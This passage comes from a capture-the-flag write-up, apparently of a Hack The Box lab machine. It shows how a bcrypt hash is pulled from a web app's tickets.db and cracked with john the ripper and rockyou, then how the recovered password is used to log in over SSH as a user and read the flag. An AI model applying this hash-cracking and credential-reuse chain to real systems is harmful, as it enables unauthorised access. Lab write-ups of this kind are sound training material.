 Placing this code in the sandbox, we see the following output:

```
total 32
drwxr-x--- 4 svc    svc    4096 Sep 26  2023 .
drwxr-xr-x 4 joshua joshua 4096 Sep 12  2023 ..
lrwxrwxrwx 1 svc    svc       9 Sep 14  2023 .bash_history -> /dev/null
-rw-r--r-- 1 svc    svc     220 Sep 12  2023 .bash_logout
-rw-r--r-- 1 svc    svc    3771 Sep 12  2023 .bashrc
drwx------ 2 svc    svc    4096 Sep 12  2023 .cache
drwxrwxr-x 5 svc    svc    4096 Jan 10 09:54 .pm2
-rw-r--r-- 1 svc    svc     807 Sep 12  2023 .profile
-rw-r--r-- 1 svc    svc      39 Sep 26  2023 .vimrc
```

#### Shell as joshua

Here we are able to run commands, looking through the system, specifically, the web directories at `/var/www` we see that there are three applications, we see the original application but we also see a directory for `/contact`, within it we see a database file called `tickets.db` containing the following information:

```
joshua$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
```

This looks like a hash that we may be able to crack. By removing the `joshua` portion of the string and placing this string in johntheripper with the rockyou wordlist, we get the password for joshua.

```
john hash --wordlist=/usr/share/wordlists/rockyou.txt 
Created directory: /root/.john
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 4096 for all loaded hashes
Will run 12 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
'spongebob1'       (?)     
1g 0:00:00:18 DONE (2025-01-10 20:29) 0.05552g/s 77.95p/s 77.95c/s 77.95C/s winston..harry
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Here we see the password for the joshua user: `spongebob1`
Now we are able to login to ssh using joshua by doing the following:

```
ssh joshua@10.10.11.239
joshua@codify:~$ whoami
joshua
joshua@codify:~$ id
uid=1000(joshua) gid=1000(joshua) groups=1000(joshua)
```

Now we can look at the user.txt flag in joshua's home directory:

```
f6931501d956577c8a44666dfaaa4b04
```
